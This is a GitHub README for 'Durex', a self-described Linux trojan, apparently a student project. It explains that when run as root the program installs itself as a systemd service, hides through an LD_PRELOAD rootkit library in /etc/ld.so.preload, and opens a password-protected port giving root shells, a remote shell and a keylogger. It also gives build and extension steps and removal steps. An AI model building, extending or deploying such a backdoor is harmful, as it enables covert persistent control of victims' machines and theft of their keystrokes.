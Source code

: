 # DUREX
Simple Trojan

## INSTALLATION
### As Normal User
```sh
$> make && ./Durex
JohnDoe
$>
```
Durex only print the user actually connected.

### As Root
```sh
$> make && ./Durex
root
$>
```
Durex only print the user actually connected, but Durex will also:

+ Create a _copy_ of himself in **/bin**
+ Create a _durex.service_ file in **/lib/systemd/** to add himself as a service, launching himslef at bootime as a deamon
+ Create a _durex.so_ library in **/usr/local/lib/** to hide himself and his functions from the system
+ Add this library in **/etc/ld.so.preload**
+ Create a _Durex.log_ file in **/var/log/**

Only one instance of Durex is created. And during his copy, Durex will changed a bit his behaviour allowing himself to :

+ Open a server on port *4242*, allowing *3* clients to connect to it
	+ The server is locked by a password
	+ The server offers to the clients:
		+ A shell as root
		+ A remote shell as root
		+ A keylogger

### Le binaire a été testé sur une Debian 9.3.0 64bits.

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```sh
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```
+ Recompile

### New library function

* Create your file and compile it
```sh
$> gcc -Wall -fPIC -shared -o ./Durex.so [myfile.c] -ldl
```
* If it compiles well, create the **hex** binary
```sh
$> make hex
cc -o hex other/txttohex.c -I includes/
$> ./hex [fichier.c]
\x23\x64\x65...
```
* Add the hexadecimal generated above in **includes/main.h**
```c
# define DUREX_MY_FILE		"/tmp/myfile.c"
# define DUREX_MY_SRC		"\x23\x64\x65\x66..."
```
* Finally add those defines in **src/library.c**
```c
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE, \*DUREX_MY_FILE*\,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC, \*DUREX_MY_SRC*\ };
   ...
}
```
* Recompile the binary

### Deleting the Trojan
+ If you had previously executed the binary has root you must :
	- Stop the service durex
	- Disable the service durex
	- Remove /etc/ld.so.preload
	- Remove /bin/Durex
	- Remove /lib/systemd/system/durex.service
	- Remove /var/log/Durex.log
	- Remove /var/lock/Durex.lock

+ I intentionnaly let the user infected be able to delete **/etc/ld.so.preload** to clean his setup.
+ Read **lib_srcs/rm.c** to undo it. ;)

# AUTEUR
* gbourgeo
